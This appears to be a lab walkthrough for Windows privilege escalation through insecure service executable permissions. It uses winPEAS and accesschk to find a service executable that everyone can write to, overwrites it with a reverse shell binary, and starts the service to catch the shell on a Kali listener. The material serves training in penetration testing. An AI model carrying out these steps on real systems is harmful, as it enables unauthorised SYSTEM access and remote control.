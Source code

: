 1.Run winPEAS to check for service misconfigurations:

```
.\winPEASany.exe quiet servicesinfo
```


2.Note that the “filepermsvc” service has an executable which appears to be
writable by everyone. We can confirm this with accesschk.exe:

```
.\accesschk.exe /accepteula -quvw "C:\Program
Files\File Permissions Service\filepermservice.exe"
```

3.Create a backup of the original service executable:

```
 copy "C:\Program Files\File Permissions
Service\filepermservice.exe" C:\Temp
```

4.Copy the reverse shell executable to overwrite the service executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program
Files\File Permissions
Service\filepermservice.exe"
```

5.Start a listener on Kali, and then start the service to trigger the
exploit:

```
net start filepermsvc
```